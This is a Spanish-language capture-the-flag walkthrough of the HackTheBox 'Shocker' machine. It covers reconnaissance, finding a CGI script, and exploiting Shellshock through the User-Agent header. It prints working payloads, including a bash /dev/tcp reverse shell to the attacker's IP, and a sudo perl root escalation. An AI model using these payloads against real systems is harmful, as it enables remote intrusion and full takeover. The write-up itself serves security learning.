



# Shocker

`Shocker`, aunque bastante simple en general, demuestra la gravedad del famoso exploit Shellshock, que afectó a millones de servidores públicos.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Shocker**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.56 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 20:27 CET
Initiating SYN Stealth Scan at 20:27
Scanning 10.10.10.56 [65535 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed SYN Stealth Scan at 20:27, 29.33s elapsed (65535 total ports)
Nmap scan report for 10.10.10.56
Host is up, received user-set (0.54s latency).
Scanned at 2025-02-13 20:27:07 CET for 29s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 63
2222/tcp open  EtherNetIP-1 syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 29.43 seconds
           Raw packets sent: 71016 (3.125MB) | Rcvd: 70953 (2.839MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.56
	[*] Open ports: 80,2222

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache` y un servicio `SSH`.

```bash
❯ nmap -sCV -p80,2222 10.10.10.56 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 20:29 CET
Nmap scan report for 10.10.10.56
Host is up (0.075s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.2 - 4.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   91.64 ms 10.10.16.1
2   48.89 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.62 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://10.10.10.56
http://10.10.10.56 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.56]
```

Al acceder a [http://10.10.10.56](http://10.10.10.56) nos encontramos con el siguiente contenido de la página web.

<figure><figcaption></figcaption></figure>

Realizamos una enumeración básica de directorios y páginas y no logramos obtener ninguna información al respecto.

```bash
❯ dirsearch -u 'http://10.10.10.56/' -t 50 -i 200 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Shocker/Shocker/reports/http_10.10.10.56/__25-02-14_15-49-09.txt

Target: http://10.10.10.56/

[15:49:09] Starting: 

Task Completed
```

Realizamos nuevamente una enumeración de páginas con extensión `html` y `php` pero tampoco logramos obtener información relevante.

```bash
❯ feroxbuster -u http://10.10.10.56 -x html,php
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [html, php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      234l      773w    66161c http://10.10.10.56/bug.jpg
200      GET        9l       13w      137c http://10.10.10.56/
200      GET        9l       13w      137c http://10.10.10.56/index.html
```

A través del parámetro `-f` lo que le indicamos a `Feroxbuster` de añadir un slash `/` al final de cada petición que se realiza, esto debido que posiblemente podamos encontrar más información de posibles directorios.

En el resultado obtenido, logramos enumerar el directorio `/cgi-bin/`.


Los servidores web suelen tener un directorio CGI-bin/ en la base de su árbol de directorios para almacenar archivos ejecutables llamados CGI. Un CGI-bin es un directorio especial designado en los archivos de configuración de un servidor web para permitir la ejecución de scripts CGI en directorios específicos.


```bash
❯ feroxbuster -u http://10.10.10.56 -f -n --status-codes 200,403 --dont-filter
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🤪  Filter Wildcards      │ false
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w      294c http://10.10.10.56/cgi-bin/
200      GET      234l      773w    66161c http://10.10.10.56/bug.jpg
200      GET        9l       13w      137c http://10.10.10.56/
403      GET       11l       32w      292c http://10.10.10.56/icons/
403      GET       11l       32w      300c http://10.10.10.56/server-status/
```

Realizaremos una búsqueda de archivos ejecutables que se puedan encontrar en el directorio `/cgi-bin/`. Finalmente logramos enumerar un archivo llamado`user.sh`.

```bash
❯ feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl,txt,php
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56/cgi-bin/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [sh, cgi, pl, txt, php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        7l       17w      118c http://10.10.10.56/cgi-bin/user.sh
404      GET        9l       33w      299c http://10.10.10.56/cgi-bin/Style%20Library.sh
```


## Initial Access

### ShelShock Attack (User-Agent) \[CVE-2014-6271]

Accederemos a [http://10.10.10.56/cgi-bin/user.sh](http://10.10.10.56/cgi-bin/user.sh) y visualizamos el contenido del script.

<figure><figcaption></figcaption></figure>

El endpoint `/cgi-bin/user.sh` está ejecutando un script en el servidor y devolviendo su salida.

**Análisis de la respuesta:**

* **Content-Type: text/x-sh** → El servidor está sirviendo un archivo de script de shell (`.sh`).
* **Just an uptime test script** → Mensaje que indica que el script solo muestra el uptime del sistema.
* **19:11:10 up 5 min, 0 users, load average: 0.00, 0.03, 0.01** → Resultado del comando `uptime`, lo que sugiere que el script ejecuta comandos del sistema.

<figure><figcaption></figcaption></figure>

Si el servidor ejecuta el script sin restricciones, podríamos probar **Shellshock** o **command injection** enviando una carga en la cabecera `User-Agent` o como parámetro en la URL.

Shellshock (CVE-2014-6271) es una vulnerabilidad en **Bash** que permite ejecutar comandos arbitrarios a través de variables de entorno manipuladas. Se explota inyectando código malicioso en cabeceras HTTP o parámetros de CGI cuando el servidor usa Bash para ejecutar scripts.


GNU Bash hasta la versión 4.3 procesa las cadenas finales después de las definiciones de funciones en los valores de las variables de entorno, lo que permite a atacantes remotos ejecutar código arbitrario a través de un entorno diseñado, como lo demuestran los vectores que involucran la característica ForceCommand en OpenSSH sshd, los módulos mod\_cgi y mod\_cgid en el servidor HTTP Apache, scripts ejecutados por clientes DHCP no especificados y otras situaciones en las que la configuración del entorno ocurre a través de un límite de privilegios desde la ejecución de Bash, también conocido como "ShellShock". NOTA: la solución original para este problema era incorrecta; CVE-2014-7169 se ha asignado para cubrir la vulnerabilidad que aún está presente después de la solución incorrecta.




Nos encontramos con el siguiente repositorio de GitHub que nos mostraba un simple PoC de cómo intentar explotar el `ShellShock`.



Modificaremos el encabezado de `User-Agent` para inyectarle el siguiente código malicioso. Verificamos que en la respuesta por parte del servidor, hemos logrado la ejecución de comandos.

```bash
User-Agent: () { :; }; echo; /usr/bin/id
```

<figure><figcaption></figcaption></figure>

El siguiente paso, será lograr obtener una Reverse Shell para acceder al sistema. Nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Inyectaremos el siguiente código malicioso en el `User-Agent` para establecernos la Reverse Shell.

```bash
User-Agent: () { :; }; /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.16.7/443 0>&1
```

<figure><figcaption></figcaption></figure>

Verificaremos que logramos acceder al sistema y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.56] 42186
script /dev/null -c bash
Script started, file is /dev/null
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt 
2283b57fd1d3********************
```

## Privilege Escalation

### Abusing sudoers privilege (perl)

Revisaremos los grupos a los que forma parte el usuario `shelly`. Por otro lado, al verificar si disponíamos de permisos de `sudoers`, nos encontramos que tenemos la capacidad de ejecutar como `sudo` sin proporcionar credenciales el binario de `/usr/bin/perl`.

```bash
shelly@Shocker:/usr/lib/cgi-bin$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

En la página de `GTFOBins` podemos encontrar diferentes maneras de cómo abusar de privilegios de binarios con `sudoers`. Nos encontramos la respectiva entrada del binario `perl`.



También, podemos realizar la misma consulta a través de la siguiente herramienta de `searchbins` que realiza la consulta de `GTFOBins` desde la misma terminal.



```bash
❯ searchbins -b perl -f sudo

[+] Binary: perl

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/perl/#sudo]

	| sudo perl -e 'exec "/bin/sh";'
```

Realizamos la ejecución del comando que se nos proporciona en `GTFOBins` y finalmente logramos abusar del binario `/usr/bin/perl` como `sudo` y logramos el acceso a `root`. Finalmente, comprobamos la flag de **root.txt**.

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/bash";'  
root@Shocker:/usr/lib/cgi-bin# cat /root/root.txt 
47fd73a775177*******************
```
